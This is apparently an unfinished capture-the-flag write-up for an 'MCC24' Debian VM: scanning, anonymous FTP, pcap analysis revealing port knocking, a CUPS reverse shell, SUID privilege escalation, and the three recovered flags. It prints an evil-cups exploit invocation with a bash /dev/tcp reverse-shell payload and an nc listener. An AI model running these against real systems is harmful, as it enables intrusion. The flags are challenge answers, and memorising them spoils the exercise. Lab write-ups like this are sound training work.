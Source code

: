 ### Step 1: Import the .ova file into vmware 
After importing into virtualbox or vmware, we can notice it is a Linux Debian machine with the username of **alexander**. The next task is to get the IP address of this machine from a attack machine, for this case our attack machine used is Parrot OS. 

![MCC24-2024-11-29-15-18-03](./static/MCC24-2024-11-29-15-18-03.png)

### Step 2: Ping sweep to get the IP address of the machine

With this one liner bash script, we get the victim machine IP address. 

```bash
for i in $(seq 254); do ping 172.20.10.$i -c1 -W1 & done | grep from
```

Make sure the IP address that we going to scan is within the subnet which is **172.20.10** 

![Other Linux 5.x kernel 64-bit-2024-11-29-15-30-51](./static/Other Linux 5.x kernel 64-bit-2024-11-29-15-30-51.png)

### Step 3: Use Nmap to scan open ports of the machine

```bash
 nmap -A 172.20.10.6
Starting Nmap 7.95 ( https://nmap.org ) at 2024-11-29 16:28 UTC
Nmap scan report for 172.20.10.6
Host is up (0.00058s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.0.8 or later
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 172.20.10.4
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey:
|   256 00:dd:3e:84:f7:9c:5e:91:86:f4:e3:88:4a:98:8b:bc (ECDSA)
|_  256 91:8e:1f:ca:0d:33:01:96:45:75:30:ca:e7:e4:dc:7a (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.62 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.09 seconds
```

We notice that the machine has 3 ports are open which are FTP (21), SSH (22) and HTTP (80). Moreover, the FTP server of the machine allow anonymous login. 
### Step 4: Use FTP to check files that are expose
```bash
ftp 172.20.10.6
Connected to 172.20.10.6.
220 ///  My Private File Sharing System ///
Name (172.20.10.6:trevorphilips): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0           56420 Nov 27 21:22 net.pcap
226 Directory send OK.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0           56420 Nov 27 21:22 net.pcap
226 Directory send OK.
ftp> get net.pcap
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for net.pcap (56420 bytes).
226 Transfer complete.
56420 bytes received in 0.01 seconds (5.38 Mbytes/s)
ftp> quit
221 Goodbye.
```

From the ftp server, we can notice a pcap file can be access. We can use `ls` and `get` to download the pcap file to analyze it futher.
### Step 5: Analyze PCAP 
Opening the `net.pcap` file, we can first analyze it from the protocol hierarchy and relate with the communication of IP address.

![pcap-analysis](./static/pcap-analysis.png)

From the protocol hierarchy output, we able to investigate futher in tcp transmissions based on the IP address communication.

![pcap-analysis-2](./static/pcap-analysis-2.png)

After futher investigation, we notice port knocking performed by `ip.addr==192.168.248.151 && ip.addr==192.168.248.137`

The wireshark filter to narrow down on port knocking action is this:
```
ip.addr==192.168.248.151 && ip.addr==192.168.248.137 && (tcp.flags.syn == 1 && tcp.flags.ack == 0)
```

![[screenshot.png]]


### Step 9: Port Knocking on PCAP (TCP.SYN.ACK to open port 631)
- in detail on which port is being knocked

### Step 10: Nmap to port 631 and found new service called CUPS
After analyzing the pcap file, we notice the use of port 631, which is for the Internet Printing Protocol (IPP). This protocol is commonly used by CUPS (Common UNIX Printing System) to manage print jobs and printers over a network. 

References: link booktricks

In order to perform nmap scan on the victim machine, we have to perform knocking with knockd
```
knock 172.20.10.6 77 67 2024
```

Later than we can perform nmap scan on port 631

```
nmap -A -sV -p 631 172.20.10.6
Starting Nmap 7.95 ( https://nmap.org ) at 2024-11-30 21:34 UTC
Nmap scan report for 172.20.10.6
Host is up (0.00042s latency).

PORT    STATE SERVICE VERSION
631/tcp open  ipp     CUPS 2.4
|_http-title: Home - CUPS 2.4.2
|_http-server-header: CUPS/2.4 IPP/2.1
| http-robots.txt: 1 disallowed entry
|_/

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.44 seconds
```

From the scan result, we get to know that CUPS service is running with the version 2.4.2 which uses IPP and able to access with a web interface, as it indicated the HTTP details with `robots.txt`. 

### Step 11: Get reverse shell via evilcups to the victim machine

To gain access to the victim machine, utilize reverse shell from [evilcups.py](https://github.com/IppSec/evil-cups/blob/evilcups.py) which allow the attacker's machine to receive connection from the victim machine

First, step up a listener with nc
```
nc -lvnp 4545
```

Next, execute the reverse shell
```
python3 evil-cups.py 172.20.10.4 172.20.10.6 'bash -c "bash -i >& /dev/tcp/172.20.10.4/4545 0>&1"'
```
![reversehell1](./static/reverseshell1.png)

![reverseshell2](./static/reverseshell2.png)

![image](./static/image.webp)

Once we enter the victim machine, the first flag is located at `/home/lp`, we can cat the `initial_flag.txt`
**1st Flag:** `MCC24{h3ll0_fr0m_pr1nt1ng_s3rv1c3s`

### Step 12: Use tools suid3num to enumerate 

![[image.png]]
We have tried running linpeas but unfortunately it does not work due to timeout. So, we opt for suid3num enumeration to perform privilege escalation. 

![[image (1).png]]

Now, we have found the second flag.

**2nd Flag:** MCC24{4bus1ng_su1d}

### Step 13: Found last flag with alexander's privilege at home directory 

![[image (1).webp]]

**3rd Flag:** `MCC24{g00d_j0b_3v3ry0n3}`


### Rabbit Hole Faced
